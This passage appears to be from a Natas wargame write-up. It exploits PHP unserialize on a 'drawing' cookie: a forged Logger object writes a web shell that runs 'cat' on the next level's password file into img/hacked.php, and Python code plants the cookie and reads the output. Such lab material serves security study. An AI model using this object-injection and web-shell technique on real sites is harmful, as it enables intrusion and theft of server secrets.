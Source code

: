 Looks like our assumption was correct.

Now, recall that the source code had a Logger function. Is it possible for us to adjust the Logger function to view the password file on the server?

```
<?php
class Logger{
    private $logFile;
    private $initMsg;
    private $exitMsg;

    function __construct(){
        // initialise variables
        $this->initMsg="<?php system('cat /etc/natas_webpass/natas27'); ?>"; # To be executed once the webpage is loaded
        $this->exitMsg="<?php system('cat /etc/natas_webpass/natas27'); ?>"; # To be executed once the webpage is loaded
        $this->logFile = "img/hacked.php"; # Store our log file here
    }
}

$log = new Logger();
echo(base64_encode(serialize($log)));
?>

Output:
Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czoxNDoiaW1nL2hhY2tlZC5waHAiO3M6MTU6IgBMb2dnZXIAaW5pdE1zZyI7czo1MDoiPD9waHAgc3lzdGVtKCdjYXQgL2V0Yy9uYXRhc193ZWJwYXNzL25hdGFzMjcnKTsgPz4iO3M6MTU6IgBMb2dnZXIAZXhpdE1zZyI7czo1MDoiPD9waHAgc3lzdGVtKCdjYXQgL2V0Yy9uYXRhc193ZWJwYXNzL25hdGFzMjcnKTsgPz4iO30=
```

Now that we modified the Logger class to do what we want, let's take the serialized Logger object and update it to the drawing cookie!

```
session.cookies["drawing"] = "Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czoxNDoiaW1nL2hhY2tlZC5waHAiO3M6MTU6IgBMb2dnZXIAaW5pdE1zZyI7czo1MDoiPD9waHAgc3lzdGVtKCdjYXQgL2V0Yy9uYXRhc193ZWJwYXNzL25hdGFzMjcnKTsgPz4iO3M6MTU6IgBMb2dnZXIAZXhpdE1zZyI7czo1MDoiPD9waHAgc3lzdGVtKCdjYXQgL2V0Yy9uYXRhc193ZWJwYXNzL25hdGFzMjcnKTsgPz4iO30="
# Try to get the response again after submitting malicious code
response = session.get(drawing_url, auth=(username, password))
content = response.text
# Check the cookies
print(session.cookies)
# print(content)

# Navigate to where the log file is stored at
password_url = url + "img/hacked.php"
response = session.get(password_url, auth=(username, password))
content = response.text
print(content)
```
